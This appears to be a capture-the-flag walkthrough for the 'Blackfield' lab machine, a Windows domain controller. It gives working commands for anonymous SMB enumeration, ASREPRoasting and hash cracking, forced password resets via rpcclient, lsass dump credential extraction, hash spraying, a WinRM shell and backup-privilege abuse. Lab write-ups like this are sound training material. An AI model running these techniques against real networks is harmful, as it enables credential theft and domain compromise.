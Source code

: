 ## Skills covered

- SMB Enumeration (Enumerating users via anonymous login)
- ASREPRoasting (Kerberos Pre-Authentication disabled)
- Lsass Process Dump Analysis
- Using WinRM Privileges
- Abusing Backup Operators Privileges
- Enumerating a domain using Bloodhound
- Use of RPCClient

## Enumeration

Begin by running an `nmap` scan of the IP address.
`sudo nmap -sV -p- -A 10.10.10.192`

This scan indicates that port 53 (DNS), 389 (LDAP), and 445 (SMB) are open. The scan results also show the hostname is `DC01` and the related domain is `BLACKFIELD.LOCAL` Because of this, it is highly likely that this server is the domain controller for the `BLACKFIELD.LOCAL` domain.

As SMB port 445 is open, a good next step would to be check for anonymous/guest access, and attempt to map the shares if it is open.
`smbmap -H 10.10.10.192 -u guest`

The result of the `smbmap` scan shows that guest access **is available**. The scan also lists available shares and the associated privilege level. In this case, there are 2 non-default shares that have read access for the guest user - `profiles$` and `forensic`

The command `smbclient -N \\\\10.10.10.192\\profiles$ -c ls` will connect to the SMB service, and run the `ls` command on the `profiles$` share. This will list the files available on the share. After running this command, the output suggests the `profiles$` share contains the user directories for each user on the domain. Use the following command to extract all of these usernames and output them to a text file for later use. 
`smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' > users.txt`

## ASREPRoasting

After extracting a list of usernames from the server, it is a good idea to check for accounts with Kerberos Pre-Authentication disabled. If there are any found, it is possible to extract the password hash, which can then be bruteforced to uncover the user's password.

`GetNPUsers.py` from [Impacket](https://github.com/SecureAuthCorp/impacket) can be used to run this attack. The following command will iterate across the `users.txt` username list extracted from the `profiles$` share and attempt ASREPRoasting automatically.

`python3 GetNPUsers.py blackfield.local/ -no-pass -usersfile /home/kali/users.txt -dc-ip 10.10.10.192`

This will output mostly errors due to accounts not being found, or having pre-authentication enabled. However, the `support` account outputs a hash as seen below. This hash can now be bruteforced using either John or Hashcat and the `rockyou.txt` wordlist.

`$krb5asrep$23$support@BLACKFIELD.LOCAL:185afdd048d3b19c5059d658ff882ffc$fc62d426fa4af49ca9d138c055a69291de98454ae1fc224c5a45f7ef7515eb0ff6a516926957db3a5e1f25c6cfe9c00f5795ad416f369e324a506e2c05521db2541f3f40a040b910ca56af93d74d69b70f21dac55e0186158df78c05cb85e2bde124e467e9e74e850c9b8a1a2aa6ee46ac0b68e31c95b1f49c233876543d09acca6cff3eb1c84f7f5e73f46de443da8729028615087e7eaa0fc0b12fa5e58bbe9ab4fd5f38d0ae95d1da493e07c0c8d91a38e91c5f1f5fd7757786df8f1208c85f0ee9f8d9aee253e7a47bd426476162ac0a2d2ff74604b12113d4aa038fd2062267c576ad00365856948a13af70aaa42a722dcd`

Put this hash into a file, such as `~/hash.txt`. Then crack the hash using `john` and the `rockyou.txt` wordlist. (The wordlist may be compressed, decompress it using `gunzip`)

`john ~/hash.txt -w=/usr/share/wordlists/rockyou.txt`

`john` outputs that the password is `#00^BlackKnight`.

## Enumerating the domain using Bloodhound

If `bloodhound` is not already installed, it can be using:

```
sudo apt-get install bloodhound
pip3 install bloodhound
```

**NOTE:** `bloodhound` and `bloodhound-python` are different packages. Install them both.

Using the freshly extracted credentials, execute the `bloodhound-python` data collector using the following command

`bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c DcOnly`

This will create multiple files:

```
20221124194526_computers.json
20221124194526_domains.json
20221124194526_groups.json
20221124194526_users.json
```

If this is the first launch of `bloodhound`, there are some prerequisites. Run the following commands, and then login to the database Web UI at `https://localhost:7474` using the credentials `neo4j / neo4j`

```
mkdir -p /usr/share/neo4j/logs
touch /usr/share/neo4j/logs/neo4j.log
sudo neo4j start
bloodhound
```

If this is not the first launch, just run `sudo neo4j start` and then `bloodhound`.

Drag and drop the files created by `bloodhound-python` into bloodhound to import the data. Begin analysis by searching for `support` (the account we have compromised) and right click it to mark as owned.

Click 'Raw Query' at the bottom of bloodhound and run the following query to search for objects in the 1st degree (i.e. 1 hop away) that our owned user can control.

`MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p`

This command shows that the owned `support` user can `ForceChangePassword` the `audit2020` user. This privilege can be abused using `rpcclient`.

`rpcclient -U blackfield/support 10.10.10.192`

Once connected, change the `audit2020` user password using the following command:

`setuserinfo audit2020 23 P@s5w0rd`

## Enumerating shares as the next user.

With the new `audit2020` account, new SMB privileges may have been exposed. This can be confirmed by running `smbmap` again as the  `audit2020` account. 

`smbmap -H 10.10.10.192 -u audit2020 -p P@s5w0rd`

`smbmap` shows that this account has read access to the forensic share, which was not available on the `support` account.

Connect to the SMB share with the following commands and `smbclient.py` from Impacket

```
python3 smbclient.py audit2020:'P@s5w0rd'@10.10.10.192
use forensic
```

There is a directory called `memory_analysis` containing a file called `lsass.zip`. At this point, it can be assumed that this is an lsass.exe dump, which will contain password hashes. Download `lsass.zip` using the following commands:

```
cd memory_analysis
ls
get lsass.zip
exit
```

Unzip `lsass.zip` and run [pypykatz](https://github.com/skelsec/pypykatz) on it.

```
pip3 install pypykatz
pypykatz lsa minidump lsass.DMP
```

This will provide a dump of password hashes. Assuming the account lockout policy is 0 (unlimited), a spray attack will allow us to attempt to find a combination of usernames and passwords to login. Lockout Policy can be tested using the following command:

```
ldapsearch -D 'BLACKFIELD\support' -w '#00^BlackKnight' -H "ldap://10.10.10.192" -b "dc=blackfield,dc=local" -s sub "*" | grep lockoutThreshold
```

This should return `lockoutThreshold: 0` if there is no lockout policy. This confirms a password spray attack is possible.

To extract the usernames and hashes from the `lsass.dmp` file, run the following commands:

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes

pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users
```

Then, to run the spray attack:

```
crackmapexec smb 10.10.10.192 -u users -H hashes
```

The password spray attack should return a hash that can used to attempt an Evil-WinRM session. It is always good to check if WinRM is enabled by using Evil-WinRM because this will immediately provide a shell as that user.

Running `whoami /priv` in this shell will show the users permissions. An important permission to note is `SeBackupPrivilege`. This permission can be abused using `robocopy` to copy the Administrator user folder to the C:/ drive.

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```